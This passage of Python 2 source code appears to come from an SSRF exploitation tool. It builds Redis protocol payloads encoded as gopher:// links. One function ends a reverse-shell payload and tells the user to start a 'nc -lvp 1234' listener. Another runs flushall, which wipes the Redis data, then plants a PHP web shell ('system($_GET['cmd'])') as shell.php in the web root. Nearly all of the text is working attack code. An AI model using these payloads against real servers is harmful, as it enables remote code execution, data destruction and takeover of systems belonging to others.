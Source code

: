 ```
config\r
$3\r
set\r
$10\r
dbfilename\r
$"""+str(len(file))+"""\r
"""+file+""""\r
*1\r
$4\r
save\r
"""
        finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
        print "\033[93m" +"\nYour gopher link is ready to get Reverse Shell: \n"+ "\033[0m"
        print "\033[04m" +"gopher://127.0.0.1:6379/_" + finalpayload+ "\033[0m"
        print "\033[01m" +"\nBefore sending request plz do `nc -lvp 1234`"+ "\033[0m"
        print "\n" + "\033[41m" +"-----------Made-by-SpyD3r-----------"+"\033[0m"
    def get_Redis_PHPShell():
        web_root_location = raw_input("\033[96m" +"\nGive web root location of server (default is /var/www/html): "+ "\033[0m")
        php_payload = raw_input("\033[96m" +"Give PHP Payload (We have default PHP Shell): "+ "\033[0m")
        default = "<?php system($_GET['cmd']); ?>"
        if(not php_payload):
            php_payload = default
        if(not web_root_location):
            web_root_location = "/var/www/html"
        payload = """*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
1\r
$""" + str(len(php_payload) + 4) + """\r
""" + php_payload + """
\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$""" + str(len(web_root_location)) + """\r
""" + web_root_location + """\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$9\r
shell.php\r
*1\r
$4\r
save\r
"""
        finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
        print "\033[93m" +"\nYour gopher link is Ready to get PHP Shell: \n"+ "\033[0m"
```